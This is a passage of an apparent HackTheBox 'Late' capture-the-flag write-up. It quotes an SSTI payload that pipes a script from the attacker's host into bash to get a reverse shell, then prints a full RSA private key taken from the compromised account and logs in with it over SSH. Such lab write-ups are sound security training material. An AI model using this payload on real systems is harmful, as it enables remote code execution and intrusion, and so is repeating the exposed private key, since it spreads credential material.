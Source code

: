 ```bash
```

>   The SSTI payload used: `{{ cycler.__init__.__globals__.os.popen('curl http://10.10.14.4/rev.sh | bash').read() }}`
>
>   P.S. Depending on the error that the application throws while reading the payload, you have to modify it such as adding extra “_” in the payload. 

# Privilege Escalation

Before we begin, we should grab the `id_rsa` file for easier access using `ssh`!

```bash
svc_acc@late:~/app$ cat ~/.ssh/id_rsa
cat ~/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqe5XWFKVqleCyfzPo4HsfRR8uF/P/3Tn+fiAUHhnGvBBAyrM
HiP3S/DnqdIH2uqTXdPk4eGdXynzMnFRzbYb+cBa+R8T/nTa3PSuR9tkiqhXTaEO
bgjRSynr2NuDWPQhX8OmhAKdJhZfErZUcbxiuncrKnoClZLQ6ZZDaNTtTUwpUaMi
/mtaHzLID1KTl+dUFsLQYmdRUA639xkz1YvDF5ObIDoeHgOU7rZV4TqA6s6gI7W7
d137M3Oi2WTWRBzcWTAMwfSJ2cEttvS/AnE/B2Eelj1shYUZuPyIoLhSMicGnhB7
7IKpZeQ+MgksRcHJ5fJ2hvTu/T3yL9tggf9DsQIDAQABAoIBAHCBinbBhrGW6tLM
fLSmimptq/1uAgoB3qxTaLDeZnUhaAmuxiGWcl5nCxoWInlAIX1XkwwyEb01yvw0
ppJp5a+/OPwDJXus5lKv9MtCaBidR9/vp9wWHmuDP9D91MKKL6Z1pMN175GN8jgz
W0lKDpuh1oRy708UOxjMEalQgCRSGkJYDpM4pJkk/c7aHYw6GQKhoN1en/7I50IZ
uFB4CzS1bgAglNb7Y1bCJ913F5oWs0dvN5ezQ28gy92pGfNIJrk3cxO33SD9CCwC
T9KJxoUhuoCuMs00PxtJMymaHvOkDYSXOyHHHPSlIJl2ZezXZMFswHhnWGuNe9IH
Ql49ezkCgYEA0OTVbOT/EivAuu+QPaLvC0N8GEtn7uOPu9j1HjAvuOhom6K4troi
WEBJ3pvIsrUlLd9J3cY7ciRxnbanN/Qt9rHDu9Mc+W5DQAQGPWFxk4bM7Zxnb7Ng
Hr4+hcK+SYNn5fCX5qjmzE6c/5+sbQ20jhl20kxVT26MvoAB9+I1ku8CgYEA0EA7
t4UB/PaoU0+kz1dNDEyNamSe5mXh/Hc/mX9cj5cQFABN9lBTcmfZ5R6I0ifXpZuq
0xEKNYA3HS5qvOI3dHj6O4JZBDUzCgZFmlI5fslxLtl57WnlwSCGHLdP/knKxHIE
uJBIk0KSZBeT8F7IfUukZjCYO0y4HtDP3DUqE18CgYBgI5EeRt4lrMFMx4io9V3y
3yIzxDCXP2AdYiKdvCuafEv4pRFB97RqzVux+hyKMthjnkpOqTcetysbHL8k/1pQ
GUwuG2FQYrDMu41rnnc5IGccTElGnVV1kLURtqkBCFs+9lXSsJVYHi4fb4tZvV8F
ry6CZuM0ZXqdCijdvtxNPQKBgQC7F1oPEAGvP/INltncJPRlfkj2MpvHJfUXGhMb
Vh7UKcUaEwP3rEar270YaIxHMeA9OlMH+KERW7UoFFF0jE+B5kX5PKu4agsGkIfr
kr9wto1mp58wuhjdntid59qH+8edIUo4ffeVxRM7tSsFokHAvzpdTH8Xl1864CI+
Fc1NRQKBgQDNiTT446GIijU7XiJEwhOec2m4ykdnrSVb45Y6HKD9VS6vGeOF1oAL
K6+2ZlpmytN3RiR9UDJ4kjMjhJAiC7RBetZOor6CBKg20XA1oXS7o1eOdyc/jSk0
kxruFUgLHh7nEx/5/0r8gmcoCvFn98wvUPSNrgDJ25mnwYI0zzDrEw==
-----END RSA PRIVATE KEY-----

- Local Machine -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Late]
└─# mousepad id_rsa    
< copy & paste the private key here >

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Late]
└─# chmod 600 id_rsa    

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Late]
└─# ssh svc_acc@10.10.11.156 -i id_rsa
Warning: SSH client configured for wide compatibility by kali-tweaks.
svc_acc@late:~$ 
```
